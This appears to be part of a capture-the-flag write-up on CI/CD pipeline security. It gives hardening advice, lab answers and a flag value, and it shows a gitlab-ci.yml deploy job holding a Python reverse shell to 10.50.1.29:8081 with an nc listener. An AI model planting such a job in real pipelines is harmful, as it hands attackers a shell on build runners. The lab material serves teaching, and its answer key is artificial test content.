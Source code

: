    ```bash

1. **Limit Branch Access**: Restrict main branch access to trusted developers.
2. **Review Merge Requests**: Enforce multiple approvals for merge requests.
3. **Use CI/CD Variables**: Store sensitive data in secure CI/CD variables.
4. **Limit Runner Access**: Restrict job execution to trusted runners with tags.
5. **Access Control and Permissions**: Enforce least privilege by reviewing access levels.
6. **Regular Audits**: Periodically audit pipeline configurations and permissions.
7. **Monitor and Alert**: Set up monitoring and alerts for unusual activities.

By following these steps, you can significantly enhance the security of your pipeline and protect it from unauthorized code execution.

### What can we add so that merges are raised for review instead of pushing the changes to code directly?
merge requests
### What should we do so that only trusted runners execute CI/CD jobs?
limit runner access
### Authenticate to Mother and follow the process to claim Flag 3. What is Flag 3?
THM{2411b26f-b213-462e-b94c-39d974e503e6}

Editing the gitlab-ci.yml file like that: 
``` textarea
   stages:
     - deploy

   production:
     stage: deploy
     script:
       - /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.50.1.29",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
     environment:
       name: ${CI_JOB_NAME}

```

```shell
nc -lvp 8081
```

And follow the mother rules.


# Task 9 : Securing the Build Environment


To ensure our pipeline remains secure, we must focus on protecting the deployment environments. The final step in securing our build process is to prevent threats during deployment.

## Environment Segregation

Segregating environments is essential to prevent unauthorized access, particularly between Development (DEV) and Production (PROD) environments. Key practices include:
- **Separate Permissions**: DEV environments may grant developers more access than PROD, so it’s critical to keep them isolated.
- **Pipeline Channels**: Restricting direct access may not be sufficient; side channels within the pipeline can allow access if misconfigured.
